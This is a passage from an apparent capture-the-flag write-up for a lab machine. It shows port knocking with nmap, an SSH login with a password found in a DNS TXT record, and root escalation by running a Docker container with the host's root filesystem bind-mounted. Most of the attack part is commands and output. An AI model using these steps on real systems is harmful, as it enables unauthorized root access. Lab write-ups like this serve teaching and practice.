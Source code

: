 Port knocking the ports and simultaneously connecting to SSH with _prometheus_:
```markdown
ssh prometheus@10.10.10.83
```
```markdown
nmap -Pn --max-retries=0 --scan-delay=1 -p 3456,8234,62431 10.10.10.83;
```

After some tries the SSH prompt asks for a password and the string from the TXT-record works.

### Privilege Escalation to root

We know that Docker is installed, so it is a good idea to check if it is possible to abuse misconfigurations in that.
The user _prometheus_ is a member of the Docker group as `groups` shows, so running Docker commands works:
```markdown
docker container ls
```
```markdown
CONTAINER ID    IMAGE     COMMAND                   PORTS                                     NAMES
f00ba96171c5    crete     "docker-php-entrypoi…"    0.0.0.0:80->80/tcp                        crete
ce2ecb56a96e    rodhes    "/etc/bind/entrypoin…"    0.0.0.0:53->53/tcp, 0.0.0.0:53->53/udp    rhodes
620b296204a3    olympia   "/usr/sbin/sshd -D"       0.0.0.0:2222->22/tcp                      olympia
```

Bind mounting the local volume of the host on one of the containers to get access to the file system:
```markdown
docker run -v /:/mnt/testname -it olympia bash
```

In the path _/mnt/testname_ inside of the container, the local file system is mounted and it is possible to read the root flag and do everything that root can do!
